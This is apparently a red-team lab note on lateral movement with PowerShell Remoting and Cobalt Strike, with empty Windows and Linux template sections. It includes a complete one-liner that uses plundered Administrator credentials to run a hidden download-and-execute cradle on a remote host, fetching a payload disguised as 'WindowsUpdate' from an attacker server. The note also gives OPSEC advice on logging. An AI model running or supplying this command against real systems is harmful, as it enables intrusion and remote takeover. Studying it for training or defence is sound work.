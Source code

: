 
### Technique Overview
PowerShell Remoting uses Windows Remote Management (WinRM) to allow users to run PowerShell commands on remote computers.
- Window remoting is another popular remote administration method.

Advantage > 1 Attacker to Many Hosts = WinRM
- The benefit of Windows Remoting over RDP is that it allows to make changes at scale, instead of having to do everything manually one by one. It should come as no surprise that it is also a popular lateral movement technique for adversaries!
###### OPSEC
Keep in mind that we are using PowerShell for lateral movement in this case, and that PowerShell commands are prone to extensive security measures such as AMSI and script-block logging.
# C2 - Cobalt Strike
```
## Enumeration 

```markdown
```

## Exploitation
First host a Scripted Web Delivery by Navigating to Attacks -> Scripted Web Delivery (S) in the top half of your Cobalt Strike Client.
- Fill in the familiar `/WindowsUpate` payload  

![[Pasted image 20240411234042.png]]

Let's construct our PowerShell OneLiner. We will create alternate credentials and pass those along with our Invoke-Command to execute our payload on FS01 
- Note: We got Administrator creds stored in `troubleshooting.ps1` PS file. These were found stored in the 'Sales' share accessible to the low privilege user we compromised.

```powershell
powershell $pspassword=ConvertTo-SecureString "sup3rs3cr3tP@ssw0rd!!" -AsPlainText -Force;$cred= New-Object System.Management.Automation.PSCredential("FS01\Administrator",$pspassword);Invoke-Command -ComputerName fs01 -Credential $cred -ScriptBlock {powershell.exe -nop -w hidden -c "IEX(irm -useb 'http://10.130.4.100:8888/WindowsUpdate')"}
```

After successfull completion of the command, a new Beacon will check-in with high integrity.

![[Pasted image 20240411234257.png]]

---
# Windows
## Overview 

```markdown
```
## Enumeration 

```markdown
```

## Exploitation 

```markdown
```

----
# Linux
## Overview 

```markdown
```
## Enumeration 

```markdown
```

## Exploitation 

```markdown
```
